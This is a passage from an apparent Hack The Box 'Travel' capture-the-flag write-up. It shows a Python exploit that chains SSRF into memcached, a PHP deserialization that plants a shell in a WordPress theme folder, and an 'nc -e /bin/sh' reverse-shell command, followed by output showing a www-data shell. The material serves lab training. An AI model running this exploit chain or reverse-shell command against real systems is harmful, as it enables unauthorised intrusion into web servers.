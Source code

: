 ```py
ssrfURL = url+"awesome-rss/?debug=yes&custom_feed_url="+payload

x = requests.get(ssrfURL)
print(x.status_code)

print "Stage 2: Trigger Deserilzation"
x = requests.get(url+"awesome-rss/")
print(x.status_code)

payloadURL = url + "wp-content/themes/twentytwenty/logs/"+file
while True:
    print payloadURL
    x = requests.get(payloadURL)
    print(x.status_code)
    if x.status_code == 200:
        break;

print "Stage 3: Get a Shell"

rceURL = payloadURL+"?cmd=nc -e /bin/sh "+HOST+" "+PORT
print rceURL
x = requests.get(rceURL)
```

Then we of course run the exploit:
```bash
python exploit.py                                                                                                
Stage 1: SSRF in memcached
200
Stage 2: Trigger Deserilzation
200
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/shell.php
200
Stage 3: Get a Shell
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/shell.php?cmd=nc -e /bin/sh 10.10.14.14 1234
```
## Shell as www-data
After we run this we get a connection back on our host machine!
```
┌──(kali㉿kali)-[~/htb/boxes/travel]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.189] 45856
whoami
www-data
```
Unfortunately `python` is not installed on the box so we cant upgrade our shell into a fully interactive one.

